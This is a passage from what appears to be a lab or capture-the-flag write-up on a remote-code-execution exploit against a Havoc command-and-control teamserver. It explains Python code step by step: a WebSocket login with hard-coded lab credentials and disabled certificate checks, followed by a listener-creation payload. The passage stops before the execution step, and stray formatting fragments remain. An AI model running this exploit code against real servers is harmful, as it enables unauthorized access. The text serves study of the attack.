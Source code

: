 ```python
```
{% endhint %}

## Havoc RCE

<details><summary>The code</summary></details>

It start with importing the libraries and credentials needed for teamserver

```python
import hashlib
import json
import ssl
from websocket import create_connection

HOSTNAME = "192.168.167.129"
PORT = 40056
USER = "Neo"
PASSWORD = "password1234"
```

Creates a secure wss:// WebSocket connection, ignores SSL.

```python
ws = create_connection(f"wss://{HOSTNAME}:{PORT}/havoc/",
                      sslopt={"cert_reqs": ssl.CERT_NONE, "check_hostname": False})
```

Authentication, SHA3-256 password hashes

```python
payload = {
    "Body": {
        "Info": {
            "Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(),
            "User": USER
        },
        "SubEvent": 3
    },
    "Head": {
        "Event": 1,
        "OneTime": "",
        "Time": "18:40:17",
        "User": USER
    }
}

# Send json using WS to server
ws.send(json.dumps(payload))
```

Create a listener on on HTTPS port 443 binding to all interfaces

```python
payload = {
    "Body":{
        "Info":{
            "HostBind":"0.0.0.0",
            "Name":"abc",
            "PortBind":"443",
            "Protocol":"Https",
            "Secure":"true"
            # ... other settings
        },
        "SubEvent":1
    },
    "Head":{"Event":2}
}
```